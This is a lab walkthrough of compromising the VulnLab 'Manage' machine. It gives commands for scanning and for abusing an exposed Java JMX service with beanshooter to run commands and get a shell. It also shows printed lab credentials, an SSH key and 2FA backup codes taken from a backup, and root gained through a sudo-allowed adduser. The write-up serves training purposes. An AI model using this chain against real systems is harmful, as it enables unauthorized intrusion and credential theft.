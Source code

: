 ```yaml
---
title: VulnLab -- Manage Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [enumeration]
image:
    path: images/manage-banner.png
---
```

# Manage

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Manage** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/manage-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,2222,8080,42247,42897 --min-rate=1000 10.10.123.154
```

![image.png](../images/manage.png)

now let’s try to get information about the Java RMI using beanshooter 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.123.154 2222
```

![image.png](../images/manage%201.png)

now let’s search for any credentials

![image.png](../images/manage%202.png)

as we see we got credentials for the user manager and admin

```bash
username: admin
password: onyRPCkaG4iX72BrRtKgbszd
username: manager
password: fhErvo2r9wuTEYiYgt
```

Now let’s try to gain code execution

First start tcpdump on your machine

```bash
sudo tcpdump -i tun0 icmp
```

![image.png](../images/manage%203.png)

now let’s go and try to ping myself from the victim machine

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 exec 'ping -c 3 10.8.5.233'
```

![image.png](../images/manage%204.png)

Now let’s go back to our machine

![image.png](../images/manage%205.png)

and we got code execution!

Now let’s gain a shell 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 tonka
```

![image.png](../images/manage%206.png)

now let’s go and get a shell.

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.10.123.154 2222
```

![image.png](../images/manage%207.png)

now let’s navigate to the useradmin directory

```bash
cd /home/useradmin
```

![image.png](../images/manage%208.png)

> Notice that we found a backup directory so let’s navigate to it
> 

```bash
cd backups
```

![image.png](../images/manage%209.png)

now let’s download the file in our local machine and see the content

```bash
tar -xvzf backup.tar.gz
```

![image.png](../images/manage%2010.png)

> Notice that we got the id_ed25519 file which is the user admin private key
> 

Let’s login via SSH as the user “useradmin”

```bash
ssh -i .ssh/id_ed25519 useradmin@10.10.123.154
```

![image.png](../images/manage%2011.png)

As we see it asks for the password but as we see when we extracted the backup file we found a google authenticator file so let’s see it’s content

```bash
cat .google_authenticator
```

![image.png](../images/manage%2012.png)

as we see we got the backup code so let’s enter one of them in the SSH login

![image.png](../images/manage%2013.png)

finally we are logged it! 🥳

Now let’s go and see our privileges 

```bash
sudo -l
```

![image.png](../images/manage%2014.png)

> As we see we can execute the binary adduser as root without password
> 

First let’s google the default sudoers file

![image.png](../images/manage%2015.png)

Notice that the admin user by default the admin user will have root access

Now let’s add a new admin user

```bash
sudo /usr/sbin/adduser admin
```

![image.png](../images/manage%2016.png)

now let’s switch to the admin user

```bash
su admin
```

![image.png](../images/manage%2017.png)

Now let’s go and check the user privilege

```bash
sudo -l
```

![image.png](../images/manage%2018.png)

as we see we have all access to root so let’s go and switch to root

```bash
sudo su
```

![image.png](../images/manage%2019.png)

and we got root access so let’s go to the root directory and see the flag

```bash
cd /root;ls -las
```

![image.png](../images/manage%2020.png)

Amazing i got the root flag! 🥳

![image.png](../images/manage%2021.png)

That’s it for the **Manage** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT